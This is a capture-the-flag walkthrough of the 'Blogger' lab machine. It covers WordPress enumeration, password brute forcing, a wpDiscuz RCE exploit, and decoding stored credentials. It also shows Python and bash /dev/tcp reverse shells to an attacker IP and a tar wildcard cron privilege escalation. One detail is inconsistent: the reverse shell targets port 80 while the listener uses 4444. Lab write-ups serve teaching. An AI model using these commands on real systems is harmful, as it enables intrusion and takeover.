

# Blogger

| Name        | Blogger                       |
| ----------- | ----------------------------- |
| Dificultad: | Easy                          |
| SO:         | Linux                         |
| Tipo:       | VulnHub - OffSec Play Grounds 


```shell
192.168.234.217
```
## Enumeration
### Nmap
```shell
nmap 192.168.234.217 -sV -sC -p- --min-rate=1000

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.10 (Ubuntu Linux; protocol 2.0)

80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-title: Blogger | Home
|_http-server-header: Apache/2.4.18 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

sudo nmap 192.168.234.217 -p- --min-rate=1000 -sU
```

### Web Enumeration - Port 80
In this port we found a simple web page but we did not find an attack vector. We can try enumerating subdirectories.
#### Ffuf
```shell
ffuf -w /home/kali/Documents/SecLists/Discovery/Web-Content/common.txt -u http://192.168.234.217/FUZZ

ffuf -w /home/kali/Documents/SecLists/Discovery/Web-Content/directory-list-2.3-small.txt -u http://192.168.234.217/FUZZ

assets
css
images
indes.html
js
```

When we stared examining this subdirectories we found an interesting folder in the following URL:
```shell
http://192.168.234.217/assets/fonts/
```


```shell
http://192.168.234.217/assets/fonts/blog/
```

- Looks like this is a WordPress web page but we can visualize it correctly

### WordPress
If we inspect the source page we can find the FQDN to add in our `/etc/hosts` file.

```shell
blogger.pg
```
#### vHost
```shell
echo '192.168.234.217 blogger.pg' | sudo tee -a /etc/hosts
```

And now we can navigate in this WordPress web page.
```shell
http://blogger.pg/assets/fonts/blog/
```


## Foothold
### WordPress Enumeration - wpscan
#### User Enumeration
```shell
sudo wpscan -e -t 500 --url http://blogger.pg/assets/fonts/blog/

j@m3s
```

- An username was found. We can try to brute force its password:
```shell
sudo wpscan --url http://blogger.pg/assets/fonts/blog/ -P /usr/share/wordlists/rockyou.txt -U 'j@m3s'
```
- Not password was found
#### Plugins Enumeration - aggressice
```shell
sudo wpscan -e ap -t 500 --url http://blogger.pg/assets/fonts/blog/ --plugins-detection aggressive

akismet 4.0.8
wpdiscuz 7.0.4
```

- Two plugins not updated were found. For "wpdiscuz" we found a RCE exploit
***
- https://wpdiscuz.com/
This plugin changes your website discussion experience and provides you with new user engagement features.
***

### CVE-2020-24186 - wpDiscuz 7.0.4 RCE
- https://github.com/hev0x/CVE-2020-24186-wpDiscuz-7.0.4-RCE/tree/main
```shell
python3 CVE-2020-24186.py -u http://blogger.pg/assets/fonts/blog/ -p ?p=29
```
- We need to pass the root directory of the WordPress instance and a subdirectory where we can find this plugin. For example an entry where the comment option is active

- Now we have RCE

#### Reverse Shell
```shell
python3 -c 'import os,pty,socket;s=socket.socket();s.connect(("192.168.45.204",4444));[os.dup2(s.fileno(),f)for f in(0,1,2)];pty.spawn("bash")'
```
#### Listener
```shell
nc -lnvp 4444
```


```shell
cd /home/james
```


## Lateral Movement
We found a file called `wp-config.php` but the credentials there did no work for us.
### Basic Enumeration
```shell
sudo -l

sudo -V
Sudo version 1.8.16
```

```shell
uname -a
Linux ubuntu-xenial 4.4.0-210-generic #242-Ubuntu SMP Fri Apr 16 09:57:56 UTC 2021 x86_64 x86_64 x86_64 GNU/Linux

cat /etc/issue
Ubuntu 16.04.7 LTS \n \l
```

```shell
ls -lah /etc/cron*

cat /etc/crontab
* * * * * root /usr/local/bin/backup.sh
```

- A cron job in a non default folder was found but we can only read this file

```shell
cat /usr/local/bin/backup.sh

#!/bin/sh
cd /home/james/
tar czf /tmp/backup.tar.gz *
```

- Every minute a backup of "james" home folder has been made. We could abuse this command but we can't write inside "james" folder

### Hunting for Credentials
We started to search in some folder an we found a file with an interesting name:
```shell
cd /opt
ls -la

.creds
```


```shell
cat .creds

';u22>'v$)='2a#B&>`c'=+C(?5(|)q**bAv2=+E5s'+|u&I'vDI(uAt&=+(|`yx')Av#>'v%?}:#=+)';y@%'5(2vA!'<y$&u"H!"ll
```
- This encode characters can be identified as Rot47, then we can make use of a web page as the following to decode this string:
- https://www.dcode.fr/rot-47-cipher

And now we have a Base64 encoded string.
```shell
VjFaamVGSXlVa2RqUm14VlZrWndWMXBYY3pGalZtdDVZMFUxVGsxWFpEUlZWM1JIVXpGRmVGTnNiRlZXVjJoTVdWaGpPVkJSUFQwPQ==
```
- We decoded this string 4 times and at the end a pair of credentials were found:
```shell
echo "base64 string" | base64 -d

james:S3cr37_P@$$W0rd
```
#### Shell as james
```shell
su james
```


## Privilege Escalation
### Method 1
Now we can go back to the scheduled task.
#### Tar Abuse - Cronjob
```shell
echo 'bash -c "/bin/bash -i >& /dev/tcp/192.168.45.204/80 0>&1"' > shell.sh
echo "" > "--checkpoint-action=exec=sh shell.sh"
echo "" > --checkpoint=1
```
- Now we need to wait for the reverse shell to be executed
#### Listener
```shell
nc -lnvp 4444
```


### Method 2
Another way to escalate privileges is guessing the password of another user. In this occasion a common password for the user "vagrant" is the same user:
```shell
su vagrant
vagrant:vagrant
```

```shell
sudo -l

    (ALL) NOPASSWD: ALL
```

#### Shell as root
```shell
sudo su
```


# Flags
```shell
/home/james/local.txt
/root/proof.txt
```


